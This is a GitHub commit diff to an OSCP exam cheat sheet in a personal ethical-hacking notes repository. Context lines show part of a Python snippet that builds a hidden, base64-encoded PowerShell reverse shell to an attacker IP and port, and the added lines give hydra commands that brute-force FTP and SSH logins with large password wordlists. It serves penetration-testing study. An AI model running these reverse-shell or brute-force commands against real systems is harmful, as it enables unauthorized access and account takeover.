

Before and after one commit to rottaj/Rotta-Rocks, a Markdown page: ethical-hacking/templates-and-cheat-sheets/oscp-cheat-sheet.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
GITBOOK-278: change request with no subject merged in GitBook

````diff
--- a/ethical-hacking/templates-and-cheat-sheets/oscp-cheat-sheet.md
+++ b/ethical-hacking/templates-and-cheat-sheets/oscp-cheat-sheet.md
@@ -113,6 +113,18 @@ payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.10",44
 cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
 
 return cmd
+```
+
+
+
+## Brute Forcing Password
+
+```sh
+hydra -I -V -f -L usernames.txt -u -P /opt/SecLists/Passwords/xato-net-10-million-passwords.txt 192.168.191.46 ftp
+```
+
+```bash
+hydra -I -V -f -L usernames.txt -u -P /usr/share/wordlists/rockyou.txt ssh://ip
 ```
 
 ## Cracking
````
